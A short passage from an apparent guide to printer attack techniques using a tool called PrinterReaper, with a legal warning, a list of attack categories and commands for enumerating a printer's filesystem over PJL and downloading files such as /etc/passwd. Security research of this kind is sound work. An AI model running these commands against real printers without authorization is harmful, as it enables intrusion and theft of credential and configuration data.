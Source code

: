 # 💥 Attack Vectors

Comprehensive guide to printer exploitation techniques using PrinterReaper.

---

## ⚠️ Legal Warning

**IMPORTANT**: All attack techniques described here are for:
- ✅ Authorized penetration testing
- ✅ Security research
- ✅ Educational purposes

**NEVER** use these techniques without written authorization!

---

## 📋 Attack Categories

1. [Information Disclosure](#-information-disclosure)
2. [Authentication Bypass](#-authentication-bypass)
3. [Denial of Service](#-denial-of-service)
4. [Data Manipulation](#-data-manipulation)
5. [Print Job Capture](#-print-job-capture)
6. [Persistence](#-persistence)
7. [Physical Damage](#-physical-damage)

---

## 🔓 Information Disclosure

### Attack 1.1: Filesystem Enumeration

**Objective**: Map entire printer filesystem

**Steps:**
```bash
# 1. Connect
python3 printer-reaper.py <target> pjl

# 2. List all volumes
> ls 0:/
> ls 1:/
> ls 2:/

# 3. Recursive file discovery
> find /

# 4. Download interesting files
> download /etc/passwd
> download /etc/config.xml
> download /webServer/index.html
```
